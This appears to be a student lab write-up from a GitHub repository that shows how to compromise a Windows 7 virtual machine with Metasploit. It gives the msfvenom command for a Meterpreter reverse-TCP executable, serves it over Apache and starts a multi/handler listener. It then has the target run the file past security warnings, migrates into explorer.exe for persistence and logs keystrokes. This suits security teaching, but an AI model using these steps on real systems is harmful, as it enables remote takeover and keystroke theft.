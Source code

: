 [# EX-6.Compromising-windows-using-Metasploit
## Date:06/04/2024
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/0f0a4214-f2dc-4996-8926-eb56392bcc9c)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7556fc57-da46-4e95-8513-3751c39f7877)



copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/ef0ae3f2-ed72-4581-a5e3-082fc0c1c662)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/06567d9d-bf5a-46f3-8915-09e660fd0ee6)



Check the status of apache2
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6ce0d347-84b4-4782-9e05-3684db0a972a)



Invoke msfconsole:
## OUTPUT:

![320249831-bcbf9308-5c23-49c0-8ece-39f45528f5f8](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7ea33979-d8fd-44a3-af85-5eb17f520e28)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![320249999-1a4990af-3423-40c9-ac8d-e76ae65172ce](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7782e729-27b3-4b25-9182-9f1ed5a34d68)

Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/039dce90-c240-40e3-a053-479988b6de5a)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

![VirtualBox_Windows 7_07_04_2024_09_28_16](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6d0f5ccd-2d68-4896-807f-14936ab7dfc3)

Bypass any warning boxes, double-click the file, and allow it to run.

![VirtualBox_Windows 7_07_04_2024_09_56_55](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/0a74ac36-8755-414c-9030-2c5d9daba5d8)

On kali give the command exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/e52ec7e8-339e-4c61-97d4-6ded61fa3868)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/2e397df3-935e-4231-9552-628e829a336d)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/b8ba91f2-ec16-43fd-b843-7a5720d84935)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/8347aaba-4690-4922-8388-33f496f36796)


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6e719e14-830f-4589-a9de-86ebbba28b65)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
